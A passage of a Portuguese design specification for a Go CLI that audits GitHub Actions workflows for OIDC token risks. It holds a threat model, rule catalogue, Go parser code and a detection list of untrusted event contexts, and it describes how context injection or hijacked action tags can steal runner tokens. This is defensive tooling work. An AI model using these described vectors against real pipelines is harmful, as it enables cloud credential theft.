

# GHA-OIDC-Auditor: Especificação Técnica e Arquitetura de Engenharia

## 1. Sumário Executivo e Formulação do Problema

A transição de credenciais estáticas de longa duração (`AWS_SECRET_ACCESS_KEY`, service account keys) para autenticação federada via OpenID Connect (OIDC) no GitHub Actions reduziu o risco de vazamento de segredos em repouso. No entanto, introduziu uma superfície de ataque centrada no ciclo de vida de tokens efêmeros e na governança de políticas de confiança (Trust Policies) em provedores de nuvem.

O `gha-oidc-auditor` é uma ferramenta dual-use de auditoria estática e análise semântica de fluxos CI/CD projetada para correlacionar permissões de emissão de tokens (`id-token: write`), gatilhos de execução (triggers), integridade de dependências externas (action pinning) e políticas de autorização em nuvem (AWS STS, GCP Workload Identity, Azure AD, HashiCorp Vault).

Diferente de linters sintáticos genéricos, a ferramenta avalia a cadeia completa:
**Gatilho do Workflow $\to$ AST de Execução $\to$ Emissão de Token OIDC $\to$ Provedor de Nuvem Alvo $\to$ Raio de Impacto (Blast Radius).**

---

## 2. Modelo de Ameaças e Vetores de Risco Analisados

```
+-----------------------------------------------------------------------------+
|                          VETORES DE RISCO EM GHA OIDC                       |
+-----------------------------------------------------------------------------+
| 1. Minting Não Autorizado via PR Externo                                    |
|    Trigger 'pull_request_target' + 'permissions: id-token: write'           |
|    - Ocorre quando workflows executam código de forks com permissão de      |
|      solicitar tokens JWT assinados pelo repositório base.                  |
|                                                                             |
| 2. Sequestro de Dependência em Jobs Privilegiados (Tag Hijacking)           |
|    Ações sem SHA-pinning (ex: 'actions/checkout@v4') em jobs OIDC           |
|    - A mutabilidade de tags Git permite que um comprometimento upstream    |
|      injete código arbitrário no runner e capture o token efêmero.          |
|                                                                             |
| 3. Injeção de Expressão de Contexto (Context Injection)                     |
|    Interpolação direta de '${{ github.event.* }}' em steps com OIDC         |
|    - Permite que payloads em títulos de PRs, issues ou nomes de branches    |
|      executem comandos no runner e consultem a API local de tokens.         |
|                                                                             |
| 4. Escopo Aberto em Políticas de Confiança na Nuvem (Wildcard Trust)       |
|    Substituição de 'sub' restrito por 'repo:org/*' no IAM Cloud Provider    |
|    - Permite que qualquer repositório da organização assuma a Role de       |
|      produção caso consiga emitir um token válido.                          |
+-----------------------------------------------------------------------------+
```

---

## 3. Matriz de Diferenciação Técnica

| Critério / Funcionalidade | `actionlint` | `zizmor` | `checkov` | `gha-oidc-auditor` |
| :--- | :--- | :--- | :--- | :--- |
| **Foco Principal** | Sintaxe e tipos | Segurança geral GHA | IaC e conformidade | **OIDC & Relação de Confiança Cloud** |
| **Correlação OIDC + Cloud Provider** | Não | Parcial | Não | **Sim (Extração de Roles, ARNs e Pools)** |
| **Detecção de Wildcard Trust Risk** | Não | Não | Não | **Sim (Mapeamento de claims `sub` requeridas)** |
| **Geração de Trust Policy Defensiva** | Não | Não | Não | **Sim (AWS IAM, GCP WIF, Azure)** |
| **Análise de Blast Radius** | Não | Não | Não | **Sim (Mapeamento de escopo por job)** |
| **Parsing Local e Remoto via API** | Local | Local/Remoto | Local | **Local + GitHub REST API com Cache** |

---

## 4. Arquitetura Modular do Sistema

A ferramenta é estruturada em Go para garantir portabilidade nativa sem dependências externas de runtime:

```
gha-oidc-auditor/
├── cmd/
│   └── gha-oidc/
│       └── main.go                 # Ponto de entrada CLI, flags e controle de execução
├── pkg/
│   ├── fetcher/
│   │   ├── github_api.go           # Cliente GitHub API com paginação e rate-limit handling
│   │   └── local_fs.go             # Varredura em diretórios locais (.github/workflows)
│   ├── parser/
│   │   ├── workflow_ast.go         # Estrutura de dados para AST de workflows, jobs e steps
│   │   └── expression_eval.go      # Identificador de interpolação não segura de expressões
│   ├── analyzer/
│   │   ├── engine.go               # Motor de orquestração de regras
│   │   ├── rules/
│   │   │   ├── oidc_permissions.go # Regra: id-token write em escopos globais e de job
│   │   │   ├── trigger_safety.go   # Regra: pull_request_target e workflow_run com OIDC
│   │   │   ├── action_pinning.go   # Regra: Verificação de SHA-1 em jobs privilegiados
│   │   │   ├── cloud_matcher.go    # Regra: Extração de provedores (AWS, GCP, Azure, Vault)
│   │   │   └── context_injection.go# Regra: Interpolação de inputs não confiáveis
│   ├── remediation/
│   │   ├── aws_iam.go              # Gerador de Trust Policy mínima para AWS AssumeRole
│   │   ├── gcp_wif.go              # Gerador de Assertion/Mapping para GCP Workload Identity
│   │   └── azure_federation.go     # Gerador de Subject Identifier para Azure Managed Identity
│   └── report/
│       ├── console.go              # Formatação de terminal tabular com severidades
│       ├── json.go                 # Exportação estruturada para pipelines CI/CD
│       └── markdown.go             # Relatório técnico detalhado para documentação
├── go.mod
├── go.sum
└── README.md
```

---

## 5. Catálogo de Regras de Auditoria (Rules Engine)

### Regra `OIDC-001`: Global `id-token: write` Exposure
*   **Severidade:** `ALTA`
*   **Condição:** A chave `permissions.id-token` está definida como `write` no nível raiz do workflow, concedendo acesso ao token a todos os jobs do arquivo, inclusive steps sem necessidade de autenticação.
*   **Remediação:** Mover `permissions: id-token: write` estritamente para o job que executa a autenticação em nuvem.

### Regra `OIDC-002`: Unsafe Trigger with OIDC Minting (`pull_request_target`)
*   **Severidade:** `CRÍTICA`
*   **Condição:** O workflow utiliza o gatilho `pull_request_target` associado a permissões `id-token: write` sem restrições explícitas de aprovação de ambiente (`environment`).
*   **Impacto:** Permite que Pull Requests de forks externos executem ações e mintem tokens OIDC válidos contra a infraestrutura alvo.
*   **Remediação:** Utilizar `pull_request` padrão para validação não privilegiada ou isolar a emissão de OIDC em jobs vinculados a `environment` com aprovação obrigatória.

### Regra `OIDC-003`: Mutable Action Reference in OIDC Job
*   **Severidade:** `ALTA`
*   **Condição:** Um job que contém `id-token: write` referencia ações externas utilizando tags mutáveis (ex: `@v1`, `@main`) em vez de commits imutáveis SHA-256/SHA-1 (ex: `@a1b2c3d4...`).
*   **Impacto:** Risco de supply chain direto; um sequestro da tag de uma dependência permite extrair a variável `ACTIONS_ID_TOKEN_REQUEST_URL` do ambiente.
*   **Remediação:** Fixar todas as ações do job via SHA imutável.

### Regra `OIDC-004`: Untrusted Context Interpolation in Privileged Steps
*   **Severidade:** `CRÍTICA`
*   **Condição:** Expressões como `${{ github.event.issue.title }}`, `${{ github.event.pull_request.body }}` ou `${{ github.head_ref }}` interpoladas diretamente em blocos `run:` dentro de jobs com OIDC ativo.
*   **Impacto:** Execução remota de comandos (RCE) no runner com capacidade de consultar o endpoint local de OIDC antes do encerramento do job.
*   **Remediação:** Passar valores de contexto via variáveis de ambiente (`env:`) em vez de interpolação inline.

### Regra `OIDC-005`: Multi-Cloud Ambiguity & Unrestricted Role Target
*   **Severidade:** `MÉDIA`
*   **Condição:** O workflow configura múltiplos provedores de nuvem simultaneamente sem segmentação de jobs, ou utiliza variáveis de segredos (`${{ secrets.ROLE_ARN }}`) cujo escopo não pode ser auditado estaticamente.
*   **Remediação:** Isolar autenticações de nuvens distintas em jobs dedicados e documentar a Role ARN esperada.

---

## 6. Motor de Remediação e Geração de Políticas

Para cada workflow analisado, a ferramenta sintetiza o conjunto de claims que o GitHub enviará ao provedor de nuvem e constrói a política de confiança de menor privilégio.

### Claims Padrão Emitidas pelo GitHub:
*   `iss`: `https://token.actions.githubusercontent.com`
*   `aud`: `https://github.com/OWNER` ou `sts.amazonaws.com`
*   `sub`: `repo:ORG/REPO:ref:refs/heads/BRANCH` ou `repo:ORG/REPO:environment:ENV_NAME`

### Exemplo de Saída Gerada: AWS IAM Trust Policy
```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "Federated": "arn:aws:iam::ACCOUNT_ID:oidc-provider/token.actions.githubusercontent.com"
      },
      "Action": "sts:AssumeRoleWithWebIdentity",
      "Condition": {
        "StringEquals": {
          "token.actions.githubusercontent.com:aud": "sts.amazonaws.com",
          "token.actions.githubusercontent.com:sub": "repo:OWNER/REPO_NAME:ref:refs/heads/main"
        }
      }
    }
  ]
}
```

---

## 7. Estruturas de Dados Fundamentais (Go)

```go
package analyzer

import "time"

type Severity string

const (
    SeverityCritical Severity = "CRITICAL"
    SeverityHigh     Severity = "HIGH"
    SeverityMedium   Severity = "MEDIUM"
    SeverityLow      Severity = "LOW"
    SeverityInfo     Severity = "INFO"
)

type CloudProvider string

const (
    ProviderAWS   CloudProvider = "AWS"
    ProviderGCP   CloudProvider = "GCP"
    ProviderAzure CloudProvider = "Azure"
    ProviderVault CloudProvider = "Vault"
    ProviderNone  CloudProvider = "Unknown"
)

type Workflow struct {
    Path           string                 `yaml:"-"`
    Name           string                 `yaml:"name"`
    RawContent     string                 `yaml:"-"`
    Permissions    map[string]string      `yaml:"-"`
    PermissionsAll string                 `yaml:"-"` // "read-all", "write-all" ou ""
    On             TriggerConfig          `yaml:"on"`
    Jobs           map[string]Job         `yaml:"jobs"`
}

type TriggerConfig struct {
    Events     []string               `yaml:"-"`
    Conditions map[string]interface{} `yaml:"-"`
}

type Job struct {
    Name           string                 `yaml:"name"`
    Uses           string                 `yaml:"uses"` // Reusable workflow invocation no nivel de job
    Permissions    map[string]string      `yaml:"-"`
    PermissionsAll string                 `yaml:"-"` // "read-all", "write-all" ou ""
    Environment    interface{}            `yaml:"environment"`
    Steps          []Step                 `yaml:"steps"`
}

// GetEnvironmentName extrai o nome do environment caso configurado como string ou mapping.
func (j *Job) GetEnvironmentName() string {
    if j.Environment == nil {
        return ""
    }
    switch v := j.Environment.(type) {
    case string:
        return v
    case map[string]interface{}:
        if name, ok := v["name"].(string); ok {
            return name
        }
    }
    return ""
}

type Step struct {
    Name string                 `yaml:"name"`
    Uses string                 `yaml:"uses"`
    Run  string                 `yaml:"run"`
    With map[string]interface{} `yaml:"with"`
    Env  map[string]interface{} `yaml:"env"`
}

// GetWithString retorna o valor do campo 'with' convertido para string de forma segura.
func (s *Step) GetWithString(key string) string {
    if s.With == nil {
        return ""
    }
    val, ok := s.With[key]
    if !ok || val == nil {
        return ""
    }
    return fmt.Sprintf("%v", val)
}

type Finding struct {
    RuleID       string        `json:"rule_id"`
    Title        string        `json:"title"`
    Severity     Severity      `json:"severity"`
    WorkflowPath string        `json:"workflow_path"`
    JobName      string        `json:"job_name"`
    StepIndex    int           `json:"step_index,omitempty"`
    Provider     CloudProvider `json:"cloud_provider,omitempty"`
    Description  string        `json:"description"`
    Remediation  string        `json:"remediation"`
    LineNumber   int           `json:"line_number,omitempty"`
}

type AuditReport struct {
    TargetRepo   string    `json:"target_repo"`
    ScanTime     time.Time `json:"scan_time"`
    WorkflowsNum int       `json:"workflows_scanned"`
    Findings     []Finding `json:"findings"`
    Summary      map[Severity]int `json:"summary"`
}
```

---

## 8. Interface de Linha de Comando (CLI UX)

### Modos de Uso:

1. **Auditoria Local (em repositório clonado ou CI/CD local):**
   ```bash
   gha-oidc --path ./.github/workflows
   ```

2. **Auditoria Remota de Repositório Público/Privado:**
   ```bash
   gha-oidc --repo owner/repository --token $GITHUB_TOKEN
   ```

3. **Auditoria em Lote de Organização Completa:**
   ```bash
   gha-oidc --org target-organization --token $GITHUB_TOKEN --output-dir ./audit-results
   ```

4. **Geração de Relatório e Políticas Corretivas:**
   ```bash
   gha-oidc --path ./.github/workflows --format json --generate-policies
   ```

---

## 9. Plano de Implementação em Fases com Critérios Estritos de Aceite

```
+-----------------------------------------------------------------------------------------+
|                              PIPELINE DE DESENVOLVIMENTO                                |
+-----------------------------------------------------------------------------------------+
| Fase 1: AST Parser & Expression Engine   ──► Validação: 100% Testes Unitários de AST   |
| Fase 2: Rules Engine & Precedence Matrix ──► Validação: 100% Detecção em Fixtures       |
| Fase 3: Cloud Remediation & Synthesis    ──► Validação: AWS/GCP Policies Sintaticamente |
| Fase 4: Report Engines & CLI Cobra       ──► Validação: TUI/JSON/MD & Exit Codes        |
| Fase 5: GitHub API Client & E2E Tests    ──► Validação: Scans Locais e Remotos Reais   |
+-----------------------------------------------------------------------------------------+
```

---

### Fase 1: Fundação, AST Parser & Expression Engine (`pkg/parser`)
*   **Escopo Técnico:**
    *   Scaffold do módulo Go (`github.com/gamesapeca/gha-oidc-auditor`).
    *   Implementação de `pkg/parser/workflow_ast.go` com deserialização polimórfica (`*yaml.Node` via `yaml.v3`) para `Workflow`, `Job`, `Step` e `TriggerConfig`.
    *   Tratamento de tipos heterogêneos em `with:` e `env:` (strings, inteiros, booleanos).
    *   Implementação de `pkg/parser/expression_eval.go` com regex multiline `ExprRegex` e verificação de `UntrustedContexts`.
    *   Implementação de `pkg/parser/parser.go` para ingestão via arquivo ou stream de bytes.
*   **Inputs:** Arquivos `.yml` / `.yaml` crus ou buffers de memória.
*   **Outputs:** Estrutura `*parser.Workflow` completamente preenchida e tipada.
*   **Critério de Aceite Estrito:** `go test -v ./pkg/parser/...` executando com 100% de sucesso cobrindo triggers em string/lista/mapping, permissões em string/mapping, e interpolações multilinha.

---

### Fase 2: Rules Engine, Precedência & Cloud Matcher (`pkg/analyzer`)
*   **Escopo Técnico:**
    *   Implementação do Registry e interface `Rule` em `pkg/analyzer/rules/rule.go`.
    *   Implementação de `ResolveJobIDTokenPermission` em `pkg/analyzer/precedence.go` (precedência Job > Workflow > Default).
    *   Implementação das 6 regras de auditoria:
        *   `OIDC-001` (`oidc_global.go`): `id-token: write` global.
        *   `OIDC-002` (`trigger_prt.go`): `pull_request_target` + OIDC sem gate de environment.
        *   `OIDC-003` (`action_pinning.go`): Dependências mutáveis (@vX) em jobs OIDC com exceção para actions locais (`./`).
        *   `OIDC-004` (`context_injection.go`): Interpolação de contextos não confiáveis em steps de jobs OIDC.
        *   `OIDC-005` (`multicloud_scope.go`): Ambiguidade de múltiplos provedores e targets não tipados.
        *   `OIDC-006` (`trigger_workflow_run.go`): `workflow_run` sem branch filter + OIDC.
    *   Implementação de `pkg/analyzer/cloud_matcher.go` com catálogo `KnownCloudActions` para extração de Role ARNs, Workload Pools e Client IDs.
*   **Inputs:** `*parser.Workflow`.
*   **Outputs:** Slice de `analyzer.Finding` com severidade, descrição, linha e remediação.
*   **Critério de Aceite Estrito:** `go test -v ./pkg/analyzer/...` validando assertivamente 100% das fixtures em `testdata/vulnerable/`, `testdata/safe/` e `testdata/edge_cases/`.

---

### Fase 3: Síntese de Políticas Cloud de Menor Privilégio (`pkg/remediation`)
*   **Escopo Técnico:**
    *   Implementação de `SynthesizeSubClaim` com resolução determinística de precedência (`environment` > `branch` > `tag` > `default`).
    *   Implementação de `pkg/remediation/aws_iam.go`: Geração de JSON formal de `AssumeRoleWithWebIdentity` Trust Policy com condições `StringEquals` para `aud` e `sub`.
    *   Implementação de `pkg/remediation/gcp_wif.go`: Geração de mapeamento de atributos e `attribute_condition` para GCP Workload Identity Pools.
    *   Implementação de `pkg/remediation/azure_federated.go`: Geração de Subject Identifier para credenciais federadas no Azure Entra ID.
*   **Inputs:** Metadados extraídos do Workflow/Job e dados do Cloud Matcher.
*   **Outputs:** Documentos de política em JSON/YAML prontos para aplicação direta em AWS IAM e GCP IAM.
*   **Critério de Aceite Estrito:** `go test -v ./pkg/remediation/...` validando conformidade sintática e restrição estrita de claims (zero wildcards `repo:org/*`).

---

### Fase 4: Motores de Relatório, Formatação & CLI Cobra (`pkg/report` & `cmd/gha-oidc`)
*   **Escopo Técnico:**
    *   Implementação de `pkg/report/console.go`: Tabela colorida em terminal destacando severidades, blast radius e ações afetadas.
    *   Implementação de `pkg/report/json.go`: Exportação estruturada para integração com pipelines DevSecOps.
    *   Implementação de `pkg/report/markdown.go`: Relatório detalhado para documentação e submissão em auditorias.
    *   Implementação de `cmd/gha-oidc/main.go` via Cobra CLI com flags (`--path`, `--repo`, `--org`, `--format`, `--fail-on`, `--generate-policies`, `--output`).
    *   Implementação do controle estrito de Exit Codes (`ExitOK=0`, `ExitFindingsFound=1`, `ExitCriticalFound=2`, etc.).
*   **Inputs:** `analyzer.AuditReport`.
*   **Outputs:** Renderização no terminal ou gravação em arquivo.
*   **Critério de Aceite Estrito:** Execução do binário compilado contra diretórios locais retornando os exit codes e saídas formatadas esperadas.

---

### Fase 5: Cliente GitHub API Resiliente & Testes de Integração E2E (`pkg/fetcher`)
*   **Escopo Técnico:**
    *   Implementação de `pkg/fetcher/local_fs.go`: Varredura recursiva de diretórios `.github/workflows`.
    *   Implementação de `pkg/fetcher/github_api.go`: Cliente com paginação automática de repositórios, download de workflows brutos via Contents API e wrapper `ExecuteWithRetry` com respeito ao `X-RateLimit-Reset`.
    *   Pipeline de testes de ponta a ponta (E2E) simulando scans completos locais e remotos.
*   **Inputs:** Caminho local ou credenciais/alvos remotos no GitHub.
*   **Outputs:** Relatórios finais de auditoria executados end-to-end.
*   **Critério de Aceite Estrito:** Varredura bem-sucedida de repositórios reais sem estouro de rate limit e com detecção determinística.

---

## 10. Reflexão de Suficiência e Completude Arquitetural

A divisão em 5 fases estabelece uma **ordem estrita de dependência e desacoplamento**:
1. A Fase 1 não depende de regras de negócio de segurança, apenas de AST e parsing puro.
2. A Fase 2 depende exclusivamente das estruturas da Fase 1, permitindo testes com fixtures isoladas sem tocar em rede ou I/O.
3. A Fase 3 opera sobre os outputs limpos da Fase 2, isolando a lógica matemática/IAM de nuvem.
4. A Fase 4 fornece as interfaces de saída e o binário executável.
5. A Fase 5 provê os adaptadores de I/O (disco e rede remota), conectando o motor ao mundo externo.

**Conclusão:** As 5 fases cobrem 100% dos requisitos funcionais, não funcionais, de tolerância a falhas e de integração com CI/CD, garantindo execução completa sem pontas soltas.

---

## 10. Lacunas Críticas de Implementação e Especificações Complementares

> Esta seção endereça problemas concretos que surgiriam durante o desenvolvimento sem documentação explícita.

---

### 10.1 Interface Contratual da Rule Engine

O arquivo `engine.go` precisa de uma interface formal que garanta que cada regra seja plugável e testável isoladamente. Sem isso, o motor vira uma sequência de `if/else` acoplados.

```go
package rules

// Rule define o contrato que toda regra de auditoria deve satisfazer.
type Rule interface {
    // ID retorna o identificador único da regra (ex: "OIDC-002").
    ID() string
    // Severity retorna a severidade padrão desta regra.
    Severity() analyzer.Severity
    // Check executa a análise sobre um Workflow e retorna zero ou mais Findings.
    Check(wf *parser.Workflow) []analyzer.Finding
}

// Registry mantém a lista de regras ativas e executa todas contra um Workflow.
type Registry struct {
    rules []Rule
}

func NewRegistry(rules ...Rule) *Registry {
    return &Registry{rules: rules}
}

func (r *Registry) RunAll(wf *parser.Workflow) []analyzer.Finding {
    var findings []analyzer.Finding
    for _, rule := range r.rules {
        findings = append(findings, rule.Check(wf)...)
    }
    return findings
}
```

---

### 10.2 Edge Cases do Parser YAML (Pontos de Falha Garantidos)

O campo `on:` do GitHub Actions aceita **três formas distintas** que o parser deve normalizar antes de qualquer análise. Implementar apenas uma forma quebra os outros dois casos:

```yaml
# Forma 1: String simples
on: push

# Forma 2: Lista de strings
on: [push, pull_request_target]

# Forma 3: Mapa com sub-configurações (forma mais comum em produção)
on:
  push:
    branches: [main]
  pull_request_target:
    types: [opened, synchronize]
```

O `TriggerConfig` definido na seção 7 usa `Raw interface{}` mas não especifica o unmarshalling. A implementação correta em Go requer um `UnmarshalYAML` customizado:

```go
type TriggerConfig struct {
    Events     []string               `yaml:"-"`
    Conditions map[string]interface{} `yaml:"-"`
}

// UnmarshalYAML implementa a interface yaml.Unmarshaler do gopkg.in/yaml.v3
func (tc *TriggerConfig) UnmarshalYAML(value *yaml.Node) error {
    // Caso 1: String simples (on: push)
    if value.Kind == yaml.ScalarNode {
        tc.Events = []string{value.Value}
        return nil
    }
    // Caso 2: Lista de strings (on: [push, pull_request])
    if value.Kind == yaml.SequenceNode {
        for _, item := range value.Content {
            tc.Events = append(tc.Events, item.Value)
        }
        return nil
    }
    // Caso 3: Mapping completo (on: { push: { branches: [main] } })
    if value.Kind == yaml.MappingNode {
        var m map[string]interface{}
        if err := value.Decode(&m); err != nil {
            return err
        }
        for k := range m {
            tc.Events = append(tc.Events, k)
        }
        tc.Conditions = m
        return nil
    }
    return fmt.Errorf("trigger config: formato nao reconhecido (kind: %v)", value.Kind)
}
```

Similarmente, o campo `permissions:` aceita tanto `read-all` / `write-all` como string literal quanto um mapa de permissões granulares. A struct `Workflow.Permissions` como `map[string]string` quebra no primeiro caso.

---

### 10.3 Herança de Permissão OIDC: Regra de Precedência

Esta é a regra de negócio mais crítica da ferramenta e **não está documentada no spec**. O GitHub Actions usa a seguinte lógica de herança:

```
PRECEDÊNCIA (da mais alta para a mais baixa):

1. Permissão definida no nível do JOB  (substitui completamente o nível do workflow)
2. Permissão definida no nível do WORKFLOW (herdada por todos os jobs sem permissão própria)
3. Permissão padrão do repositório (read-all ou write-all conforme configuração da org)

Casos especiais:
- 'permissions: {}' no nível do workflow define TUDO como 'none' para todos os jobs.
- Um job SEM bloco 'permissions:' herda do workflow.
- Um job COM 'permissions: {}' (vazio) define TUDO como 'none' naquele job.
- 'permissions: read-all' / 'permissions: write-all' como string substitui o mapa granular.
```

O motor de análise precisa resolver a permissão efetiva de `id-token` para cada job individualmente antes de aplicar qualquer regra. Uma função de resolução centralizada:

```go
// ResolveJobIDTokenPermission retorna a permissão efetiva de id-token para um job específico.
// Implementa a lógica de precedência do GitHub Actions.
func ResolveJobIDTokenPermission(wf *parser.Workflow, jobName string) string {
    job := wf.Jobs[jobName]

    // Caso: permissão granular definida no job
    if perm, ok := job.Permissions["id-token"]; ok {
        return perm
    }

    // Caso: 'permissions: {}' vazio no job  ->  tudo é 'none'
    if job.Permissions != nil && len(job.Permissions) == 0 {
        return "none"
    }

    // Caso: job sem bloco permissions -> herda do workflow
    if perm, ok := wf.Permissions["id-token"]; ok {
        return perm
    }

    // Caso: workflow com 'permissions: write-all' como string
    if wf.PermissionsAll == "write-all" {
        return "write"
    }

    // Default: sem permissão explícita
    return "none"
}
```

---

### 10.4 Mapa Exaustivo de Contextos Não Confiáveis

A regra `OIDC-004` detecta interpolação perigosa, mas o documento não lista quais contextos são fontes não confiáveis. Esta é a lista completa baseada na documentação de segurança do GitHub:

```go
// UntrustedContexts lista expressões que carregam dados controlados por atores externos.
// Qualquer interpolação direta destes valores em blocos 'run:' é potencialmente explorável.
var UntrustedContexts = []string{
    "github.event.issue.title",
    "github.event.issue.body",
    "github.event.discussion.title",
    "github.event.discussion.body",
    "github.event.pull_request.title",
    "github.event.pull_request.body",
    "github.event.pull_request.head.ref",         // Nome do branch de fork
    "github.event.pull_request.head.label",       // 'fork-user:branch-name'
    "github.event.pull_request.head.repo.default_branch",
    "github.event.comment.body",
    "github.event.review.body",
    "github.event.pages[*].page_name",
    "github.event.commits[*].message",
    "github.event.commits[*].author.email",
    "github.event.commits[*].author.name",
    "github.event.head_commit.message",
    "github.event.head_commit.author.email",
    "github.event.head_commit.author.name",
    "github.event.workflow_run.head_branch",      // Quando trigger é workflow_run
    "github.event.workflow_run.head_commit.message",
    "github.head_ref",                            // Alias para head.ref em PRs
    "github.event.inputs.",                       // Inputs de workflow_dispatch
}

// ExprRegex captura qualquer expressão ${{ ... }} mesmo em blocos run: multilinha
var ExprRegex = regexp.MustCompile(`\$\{\{((?s:.)*?)\}\}`)

// ContainsUntrustedContext verifica se um comando run: contém interpolação vulnerável
func ContainsUntrustedContext(runBlock string) (bool, string) {
    matches := ExprRegex.FindAllStringSubmatch(runBlock, -1)
    for _, match := range matches {
        if len(match) > 1 {
            content := strings.TrimSpace(match[1])
            for _, untrusted := range UntrustedContexts {
                if strings.Contains(content, untrusted) {
                    return true, untrusted
                }
            }
        }
    }
    return false, ""
}
```

O parser de expressões (`expression_eval.go`) deve extrair todas as expressões `${{ ... }}` de blocos `run:` usando regex e verificar se qualquer sub-expressão contém um prefixo da lista acima.

---

### 10.5 Fixtures de Teste (Casos Reais de Vulnerabilidade e Casos Seguros)

O plano de fases menciona "casos reais" mas não os especifica. O diretório `testdata/` deve conter pelo menos os seguintes casos para garantir cobertura:

```
testdata/
├── vulnerable/
│   ├── prt_oidc_minting.yml        # OIDC-002: pull_request_target + id-token: write
│   ├── global_oidc_leak.yml        # OIDC-001: id-token: write no nivel do workflow
│   ├── mutable_action_oidc.yml     # OIDC-003: actions/checkout@v3 em job com OIDC
│   ├── context_injection_run.yml   # OIDC-004: ${{ github.event.issue.title }} em run:
│   └── wildcard_trust.yml          # OIDC-005: role-to-assume com secrets sem validacao
├── safe/
│   ├── sha_pinned_oidc.yml         # Job OIDC com todas as actions fixadas por SHA
│   ├── env_var_context.yml         # Contexto passado via env: em vez de interpolacao inline
│   ├── job_level_permission.yml    # id-token: write apenas no job de deploy
│   └── environment_gate.yml        # Job OIDC vinculado a environment com aprovacao
└── edge_cases/
    ├── permissions_string.yml      # 'permissions: write-all' como string (nao mapa)
    ├── on_string_trigger.yml       # 'on: push' como string simples
    ├── on_list_trigger.yml         # 'on: [push, pull_request]' como lista
    └── permissions_empty_job.yml   # 'permissions: {}' explicitamente vazio no job
```

---

### 10.6 Dependências Go Reais (`go.mod`)

O spec lista a struct `go.mod` como arquivo mas não especifica as dependências. Tentar implementar com dependências incorretas atrasa o desenvolvimento:

```
module github.com/USERNAME/gha-oidc-auditor

go 1.22

require (
    gopkg.in/yaml.v3 v3.0.1                           // Parser YAML principal
    github.com/google/go-github/v62 v62.0.0           // GitHub REST API client
    golang.org/x/oauth2 v0.21.0                        // Autenticacao de token GitHub
    github.com/spf13/cobra v1.8.1                      // Framework CLI (flags, subcomandos)
    github.com/olekukonko/tablewriter v0.0.5           // Tabelas no terminal
    github.com/fatih/color v1.17.0                     // Cores no output do console
)
```

Nota: `gopkg.in/yaml.v3` (e não `v2`) suporta o unmarshalling customizado via interface `yaml.Unmarshaler` necessário para o `TriggerConfig`.

---

### 10.7 Exit Codes para Integração com CI/CD

A ferramenta deve ser usável como gate em pipelines CI/CD. Exit codes mal definidos tornam a integração impossível:

```go
const (
    ExitOK              = 0  // Nenhum finding encontrado
    ExitFindingsFound   = 1  // Um ou mais findings de qualquer severidade
    ExitCriticalFound   = 2  // Um ou mais findings de severidade CRITICAL
    ExitParseError      = 3  // Falha ao parsear um ou mais arquivos de workflow
    ExitAPIError        = 4  // Falha de comunicacao com a API do GitHub
    ExitInvalidArgs     = 5  // Argumentos de CLI invalidos ou incompativeis
)
```

Comportamento recomendado:
*   Por padrão: exit `ExitCriticalFound` (2) apenas em CRITICAL, permitindo findings menores passarem.
*   Flag `--fail-on medium`: alterar o threshold de exit para qualquer finding MEDIUM ou acima.
*   Flag `--fail-on all`: exit `1` para qualquer finding independente de severidade.

Exemplo de integração em GitHub Actions (autoauditoria):
```yaml
- name: Auditar workflows de OIDC
  run: |
    gha-oidc --path ./.github/workflows --fail-on critical
  continue-on-error: false
```

---

## 11. Correções de Spec (Gaps que Causariam Erros de Compilação ou Lógica Incorreta)

### 11.1 Struct `Workflow` Corrigida (campo `PermissionsAll` faltante)

A seção 10.3 referencia `wf.PermissionsAll` mas a struct da seção 7 não declara esse campo.
Substituir a struct `Workflow` por:

```go
type Workflow struct {
    Path           string                 `yaml:"-"`
    Name           string                 `yaml:"name"`
    RawContent     string                 `yaml:"-"`
    Permissions    map[string]string      `yaml:"-"`
    PermissionsAll string                 `yaml:"-"` // "read-all", "write-all" ou ""
    On             TriggerConfig          `yaml:"on"`
    Jobs           map[string]Job         `yaml:"jobs"`
}

// UnmarshalYAML implementa a interface yaml.Unmarshaler do gopkg.in/yaml.v3
func (w *Workflow) UnmarshalYAML(value *yaml.Node) error {
    type rawWorkflow struct {
        Name        string          `yaml:"name"`
        Permissions yaml.Node       `yaml:"permissions"`
        On          TriggerConfig   `yaml:"on"`
        Jobs        map[string]Job  `yaml:"jobs"`
    }
    var raw rawWorkflow
    if err := value.Decode(&raw); err != nil {
        return err
    }
    w.Name = raw.Name
    w.On = raw.On
    w.Jobs = raw.Jobs

    // Decodifica permissions de forma polimórfica (string ou map)
    if raw.Permissions.Kind == yaml.ScalarNode {
        w.PermissionsAll = raw.Permissions.Value
    } else if raw.Permissions.Kind == yaml.MappingNode {
        var m map[string]string
        if err := raw.Permissions.Decode(&m); err == nil {
            w.Permissions = m
        }
    }
    return nil
}
```

---

### 11.2 Mapa de Parâmetros por Cloud Provider (para `cloud_matcher.go`)

Sem essa especificação, o Blast Radius Graphing não extrai dados úteis de cada action.

```go
// CloudActionSpec define o identificador da action e os campos 'with:' que contêm
// as credenciais/identidades configuradas para extração de blast radius.
type CloudActionSpec struct {
